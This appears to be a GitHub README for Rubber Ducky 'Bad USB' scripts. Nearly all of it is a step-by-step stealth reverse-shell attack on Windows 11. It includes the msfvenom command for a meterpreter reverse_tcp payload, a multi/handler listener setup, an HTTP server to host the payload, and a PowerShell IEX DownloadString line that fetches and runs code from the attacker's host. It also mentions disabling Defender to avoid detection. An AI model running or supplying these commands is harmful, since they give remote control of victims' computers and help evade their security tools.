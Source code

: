 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**
#### **Tested and working on WIndows 11**

## **Steps to Compromise(StealthReverseShell):** <br>
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
Simple POC video <br>
[![Click Me](https://img.youtube.com/vi/5RGWCgTj9_g/0.jpg)](https://www.youtube.com/watch?v=5RGWCgTj9_g)


